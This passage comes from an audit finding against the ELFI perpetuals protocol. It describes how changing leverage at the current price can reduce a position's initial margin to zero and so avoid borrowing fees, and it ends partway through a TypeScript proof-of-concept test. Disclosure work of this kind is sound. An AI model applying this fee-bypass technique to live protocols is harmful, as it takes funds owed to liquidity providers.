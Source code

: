 ```solidity
```

As we can observe above, we use the current price. Say the price of tokenA is 0.8$ at the time of updating leverage. `reduceMarginAmount` will be calculated as: 80 / 0.8 = 100 tokens. 
When we reduce this amount from `position.initialMargin` which recall that it was 100 at the beginning, it will be "0". 

When positions initial margin is "0" position no longer pays borrowing fees to pool. Completely bypassing it as we can see how the borrowing fee is calculated here:
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L82-L85

**Another case from same root cause:**
Isolated accounts can close a LONG position that is in losses to secure their initial margin back, effectively escalating any losses that are occurred. 

**Coded PoC:**
```typescript
it("Increase leverage and achieve 0 margin", async function () {
		const usdcAm = precision.token(500_000, 6);
		await deposit(fixture, {
			account: user0,
			token: usdc,
			amount: usdcAm,
		});
		///////////////////////////////////////////////////////////////////////////
		///////////////////////////////////////////////////////////////////////////
		// Actual price is 25k
		const oracleBeginning = [
			{
				token: wbtcAddr,
				targetToken: ethers.ZeroAddress,
				minPrice: precision.price(25_000),
				maxPrice: precision.price(25_000),
			},
			{
				token: usdcAddr,
				targetToken: ethers.ZeroAddress,
				minPrice: precision.price(1),
				maxPrice: precision.price(1),
			},
		];
		///////////////////////////////////////////////////////////////////////////
		///////////////////////////////////////////////////////////////////////////
		const orderMargin = precision.token(25_000); // 25k 1 btc$
		const executionFee = precision.token(2, 15);
		const tx = await orderFacet.connect(user0).createOrderRequest(
			{
				symbol: btcUsd,
				orderSide: OrderSide.LONG,
				posSide: PositionSide.INCREASE,
				orderType: OrderType.MARKET,
				stopType: StopType.NONE,
				isCrossMargin: true,
				marginToken: wbtcAddr,
				qty: 0,
				leverage: precision.rate(2),
				triggerPrice: 0,
				acceptablePrice: 0,
				executionFee: executionFee,
				placeTime: 0,
				orderMargin: orderMargin,
				isNativeToken: false,
			},
			{
```